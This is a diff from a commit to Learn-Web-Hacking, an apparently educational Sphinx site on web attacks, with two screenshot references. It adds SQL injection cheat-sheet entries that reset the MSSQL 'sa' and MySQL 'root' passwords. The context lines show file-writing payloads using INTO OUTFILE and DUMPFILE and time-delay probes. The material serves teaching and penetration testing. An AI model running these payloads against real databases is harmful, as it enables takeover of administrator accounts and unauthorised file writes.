

Before and after one commit to LyleMi/Learn-Web-Hacking, a Sphinx documentation site: the page built from source/vuln/sql/cheatsheet/mysql.rst, in a window 1280 px wide and 900 px high, scrolled down 933 px. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/source/vuln/sql/cheatsheet/mssql.rst
+++ b/source/vuln/sql/cheatsheet/mssql.rst
@@ -25,3 +25,5 @@ SQL Server Payload
     - ``SELECT char(65)+char(66)`` => return ``AB``
 - Delay
     - ``WAITFOR DELAY '0:0:3'`` pause for 3 seconds
+- Change Password
+    - ``ALTER LOGIN [sa] WITH PASSWORD=N'NewPassword'``
--- a/source/vuln/sql/cheatsheet/mysql.rst
+++ b/source/vuln/sql/cheatsheet/mysql.rst
@@ -40,3 +40,5 @@ MySQL Payload
     - ``union select 1,1,1 into outfile '/tmp/demo.txt'``
     - ``union select 1,1,1 into dumpfile '/tmp/demo.txt'``
     - dumpfile和outfile不同在于，outfile会在行末端写入新行，会转义换行符，如果写入二进制文件，很可能被这种特性破坏
+- Change Password
+    - ``mysql -uroot -e "use mysql;UPDATE user SET password=PASSWORD('newpassword') WHERE user='root';FLUSH PRIVILEGES;"``
```
Also changed, not shown: source/vuln/file/upload.rst (+5 -2 lines).
